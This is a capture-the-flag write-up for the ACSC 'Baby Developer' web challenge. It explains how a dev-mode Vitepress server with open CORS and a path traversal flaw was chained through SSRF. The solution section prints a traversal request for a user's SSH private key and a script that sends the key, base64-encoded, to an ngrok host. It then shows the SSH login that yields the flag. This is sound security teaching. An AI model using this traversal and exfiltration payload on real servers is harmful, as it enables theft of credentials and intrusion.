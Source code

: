 ```yaml
---
description: >-
  Directory traversal in insecure Vitepress development server leads to
  information disclosure through SSRF
---
```


# Baby Developer

## Description

I made a mobile \(apple watch miniminimini series 1337\) viewer on my personal server.

* `http://baby-developer.chal.acsc.asia:8888/`
* `ssh baby-developer.chal.acsc.asia -p2222`

{% file src="../../.gitbook/assets/baby-developer.tar.gz\_f5f00919ccc94f797a24d1a823a61773.gz" caption="Challenge Files" %}

## Solution

* There is a `genflag` server which you are supposed to SSRF
* However, the remote address and user agent are checked so you can't do it directly from `mobile-viewer`
* The pages are rendered as screenshots

```python
@app.route('/flag')
def hello_world():
    if request.remote_addr == dev and 'iPhone' not in request.headers.get('User-Agent'):
        fp = open('/flag', 'r')
        flag = fp.read()
        return flag
    else:
        return "Nope.."
```

From `mobile-viewer`, we need to request `http://genflag/flag` from `website`. This can be done from `/home/stypr/readflag` on `website`.

```text
# Challenge: get flag!
RUN touch /home/stypr/.hushlogin && \
    echo '#include <stdio.h>\r\n#include <stdlib.h>\r\nint main(){FILE *fp;char flag[1035];fp = popen("/usr/bin/curl -s http://genflag/flag", "r");if (fp == NULL) {printf("Error found. Please contact administrator.");exit(1);}while (fgets(flag, sizeof(flag), fp) != NULL) {printf("%s", flag);}pclose(fp);return 0;}' > /home/stypr/readflag.c && \
    gcc -o /home/stypr/readflag /home/stypr/readflag.c && \
    chmod +x /home/stypr/readflag && rm -rf /home/stypr/readflag.c
```

Refer to the [website source](https://github.com/stypr/harold.kim/blob/main/package.json). The `website` server runs `yarn dev`, which runs `vitepress dev src`.

Vitepress is run on dev mode. I found that this enables CORS, allowing us to perform a CSRF to exfiltrate data. Furthermore, I found that there was a path traversal vulnerability, allowing us to get the SSH key: `http://website/../../../../../home/stypr/.ssh/id_rsa`

From `mobile-viewer`, we can make a request to our attacker site, which contains:

```markup
<script>
    fetch("http://website/../../../../../home/stypr/.ssh/id_rsa")
    .then(resp => resp.text())
    .then(data => fetch('http://0db7-115-66-195-39.ngrok.io/?' + btoa(data)))
</script>
```

Get the private key and SSH into the server to get the flag:

```text
$ ssh stypr@baby-developer.chal.acsc.asia -p2222 -i id_rsa 
ACSC{weird_bugs_pwned_my_system_too_late_to_get_my_CVE}
```

